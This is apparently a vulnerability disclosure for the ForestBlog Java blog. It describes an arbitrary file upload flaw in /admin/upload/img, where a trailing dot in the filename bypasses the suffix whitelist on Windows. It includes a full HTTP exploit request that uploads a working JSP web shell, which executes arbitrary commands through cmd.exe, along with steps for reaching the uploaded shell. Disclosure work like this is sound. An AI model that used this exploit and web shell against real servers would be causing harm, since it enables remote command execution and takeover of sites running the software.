 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](img/image-20231212235628456.png)





![image-20231212235938258](img/屏幕截图%202023-12-13%20103310.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.24.93.157:8090
Content-Length: 1022
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Tz1JmHBgIb3k3BS
Origin: http://172.24.93.157:8090
Referer: http://172.24.93.157:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=0AC95C46C4BFDF9EE9424A1EA925EBA2
Connection: close

------WebKitFormBoundary6Tz1JmHBgIb3k3BS
Content-Disposition: form-data; name="file"; filename="1.jpg.jsp."
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*,java.net.*"%>
<%
//
// JSP_KIT
%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundary6Tz1JmHBgIb3k3BS--


```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](img/屏幕截图%202023-12-13%20103523.png)
![image-20231213000618897](img/屏幕截图%202023-12-13%20103536.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](img/屏幕截图%202023-12-13%20103739.png)
